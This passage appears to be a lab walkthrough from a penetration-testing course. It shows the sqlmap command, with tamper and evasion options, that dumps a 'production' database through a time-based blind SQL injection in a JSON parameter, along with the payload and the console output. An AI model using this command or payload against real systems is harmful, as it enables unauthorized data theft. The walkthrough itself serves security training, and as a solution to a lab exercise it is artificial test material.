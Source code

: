 Once students have saved the request into a file, they need to launch `sqlmap` providing it to the option `-r`. After trial and error, students will come to know that the options `--level 5`, `--risk 3`, `--random-agent`, `--tamper=between`, and `--technique=t` are all required to bypass the protections put forth to protect the database. Afterward, when students run `sqlmap` with these options, they will discover the database `production` and the table `final_flag` within it:

```shell
sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t
```
```
┌┌─[eu-academy-1]─[10.10.14.228]─[htb-ac413848@htb-jhizwe8dgn]─[~]
└──╼ [★]$ sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:42:13 /2022-11-29/

[18:42:13] [INFO] parsing HTTP request from 'request.req'
[18:42:13] [INFO] loading tamper module 'between'
[18:42:13] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux i686; fr; rv:1.8.1) Gecko/20060916 Firefox/2.0b2' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[18:42:14] [INFO] resuming back-end DBMS 'mysql' 
[18:42:14] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 7108 FROM (SELECT(SLEEP(5)))iDXK)"}

<SNIP>

[18:42:29] [INFO] adjusting time delay to 1 second due to good response times
production
[18:43:02] [INFO] fetching tables for database: 'production'
[18:43:02] [INFO] fetching number of tables for database 'production'
[18:43:02] [INFO] retrieved: 5
[18:43:04] [INFO] retrieved: categories
[18:43:31] [INFO] retrieved: brands
[18:43:49] [INFO] retrieved: products
[18:44:18] [INFO] retrieved: order_items
[18:44:55] [INFO] retrieved: final_flag
[18:45:29] [INFO] fetching columns for table 'order_items' in database 'production'
[18:45:29] [INFO] retrieved: ^C
```
